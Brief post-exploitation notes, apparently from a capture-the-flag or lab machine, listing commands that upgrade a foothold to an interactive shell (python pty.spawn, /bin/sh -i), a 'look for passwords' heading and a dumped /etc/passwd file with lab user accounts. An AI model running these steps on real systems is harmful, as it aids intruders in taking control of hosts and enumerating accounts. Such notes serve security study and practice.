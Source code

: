 make it interactive 

/bin/sh -i

python -c 'import pty;pty.spawn("/bin/bash")'

python3 -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm 

export TERM=bash

look for passwords

view available users

    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
    systemd-network:x:101:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
    syslog:x:104:110::/home/syslog:/usr/sbin/nologin
    _apt:x:105:65534::/nonexistent:/usr/sbin/nologin
    uuidd:x:106:111::/run/uuidd:/usr/sbin/nologin
    tcpdump:x:107:112::/nonexistent:/usr/sbin/nologin
    landscape:x:108:114::/var/lib/landscape:/usr/sbin/nologin
    pollinate:x:109:1::/var/cache/pollinate:/bin/false
    sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
    systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
    lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
    mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
    barney:x:1001:1001:Barney Sumner:/home/barney:/bin/bash
    **stephen:x:1002:1002:Stephen Morris:/home/stephen:/bin/bash**
    peter:x:1003:1003:Peter Hook:/home/peter:/bin/bash
    gillian:x:1004:1004:Gillian Gilbert:/home/gillian:/bin/bash
    richard:x:1005:1005:Richard Starkey:/home/richard:/bin/bash
    paul:x:1006:1006:Paul McCartney:/home/paul:/bin/bash
    john:x:1007:1007:John Lennon:/home/john:/bin/bash
    george:x:1008:1008:George Harrison:/home/george:/bin/bash
    dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
